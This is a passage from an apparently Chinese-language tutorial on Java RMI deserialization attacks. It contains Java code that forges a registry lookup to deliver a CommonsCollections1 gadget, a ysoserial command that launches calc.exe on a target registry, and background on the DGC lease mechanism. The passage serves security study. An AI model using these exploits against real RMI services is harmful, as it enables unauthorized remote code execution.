 ```java

    public static void main(String[] args) throws Exception {

        InvocationHandler evalObject  = (InvocationHandler) CC1.getObject();
        // 这里我们手动构造了类似lookup的方法，不像bind等方法有参数类型的限制，也可以不用讲恶意对象包装为Remote
        Remote proxyEvalObject = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, evalObject);
        String host = "192.168.110.146";
        int port = 1099;


        Registry registry = LocateRegistry.getRegistry(host,port);

        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);

        //获取operations

        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);

        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(proxyEvalObject);
        ref.invoke(var2);
    }
}
```

##### 使用ysoserial进行攻击

ysoserial提供了现成的exp进行攻击，利用了bind方法。使用该工具时，注意目标是否满足gadgat链的java版本要求和依赖要求

```shell
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 CommonsCollections1 "calc.exe"
```

#### <jdk8u121,<JDK7u13,<JDK6u141版本下RMI DGC层反序列化

##### DGC简介

> DGC 是 Java RMI (Remote Method Invocation) 框架中的一个重要部分，用于管理和回收远程对象的内存。
>
> 在 Java RMI 中，远程对象可以被多个客户端同时引用。DGC 的主要作用是在分布式环境中追踪这些远程对象的引用情况，确保当没有客户端再引用某个远程对象时，该对象可以被垃圾回收。
>
> **Lease (租约)**：
>
> - 每个客户端在使用远程对象时，会向服务器申请一个租约。租约是一个时间段，表示客户端声明在这个时间段内需要保持对该远程对象的引用。
> - 服务器将为每个远程对象维护一个引用计数器，这个计数器记录了当前有效的租约数量。
>
> **Renewal (续约)**：
>
> - 当租约快到期时，客户端需要定期向服务器续约，以延长对远程对象的引用。如果客户端不再需要引用远程对象，就不再续约。
>
> **Expiration (租约到期)**：
>
> - 如果客户端没有在租约到期前续约，服务器将认为客户端不再需要引用该远程对象，并减少该对象的引用计数器。
> - 当引用计数器归零时，意味着没有客户端再引用该远程对象，服务器可以将该远程对象标记为可回收，并在适当的时间由垃圾回收器（GC）回收。
